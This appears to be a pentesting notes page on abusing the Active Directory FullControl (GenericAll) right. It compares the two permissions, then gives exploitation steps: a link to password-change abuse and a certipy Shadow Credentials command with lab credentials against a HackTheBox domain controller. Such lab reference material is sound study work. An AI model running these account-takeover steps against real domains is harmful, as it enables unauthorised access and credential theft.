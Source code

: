 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FullControl

## Information

{% hint style="success" %}
### GenericAll vs. FullControl

* `GenericAll` is a specific **Active Directory right** that grants **full control over an object**. This includes the ability to read, write, modify, and delete the object and its properties. This is the right typically needed to fully control an AD object.
* `FullControl` is a broader Windows permission concept. When we see it in tools or GUIs (like File Explorer or ACL editors), it usually maps to `GenericAll` for AD objects, but can include some additional flags related to inheritance and specific extended rights.
{% endhint %}

`Full Control` typically refers to the highest level of permissions granted on an object in AD. It allows the user or group to perform all actions on the object, including creating, deleting, modifying, and changing permissions.&#x20;

## Exploitation

### Password Change

Check how [here](forcechangepassword.md).

### Shadow Credential

Get the object's hash and perform a PtH attack.

{% code overflow="wrap" %}
```bash
certipy shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
```
{% endcode %}
